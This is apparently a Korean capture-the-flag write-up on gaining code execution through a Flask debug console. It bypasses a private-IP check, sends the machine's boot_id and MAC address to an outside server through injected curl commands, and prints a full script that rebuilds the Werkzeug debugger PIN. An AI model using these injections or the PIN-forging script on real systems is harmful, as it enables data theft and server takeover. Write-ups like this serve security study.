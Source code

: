     
Flask Debug 모드에서 동작하는 것을 통해 PIN 번호를 구한 후, `/console`에 접근해서 RCE 하는 형태임을 짐작할 수 있었다. 하지만, `/console` 접근을 하려니 Bad Request가 뜨면서 접근이 되지 않았다. 삽질을 하다가 `curl`을 통해 `/console`에 접근해야함을 알게 되었다.       
     
하지만, `ipaddress` 모듈을 통해 호스트가 사설 IP인지 검증하는 로직이 있어 이를 우회해줘야했다. 그래서, `http://domain@localhost:5000` 형태로 호스트를 우회해서 요청을 보내니 Bad Request가 뜨지 않는 것을 확인했다. 이제 RCE를 위해 PIN 값을 구해야했다.      
       
`ifconfig.me || curl -F a=@/proc/sys/kernel/random/boot_id http://server_ip:port/`       
`ifconfig.me || curl -F a=@/sys/class/net/eth0/address http://server_ip:port/`     
      
요청을 통해 machine id 값과 mac address 값을 알아냈다. 
      
```python
import hashlib
from itertools import chain

probably_public_bits = [
    'roronoa',  # username
    'flask.app',# modname 고정
    'Flask',    # getattr(app, '__name__', getattr(app.__class__, '__name__')) 고정
    '/usr/local/lib/python3.10/site-packages/flask/app.py' 
]
 
private_bits = [
    '2485377957890',  # 02:42:ac:12:00:02
    '5ccbbc99-51c3-4aff-92ad-64e67a5b59ba'   # get_machine_id()
]
 
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode()
    h.update(bit)
h.update(b"cookiesalt")
 
cookie_name = '__wzd' + h.hexdigest()[:20]
 
num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num
 
print(rv)
```        
     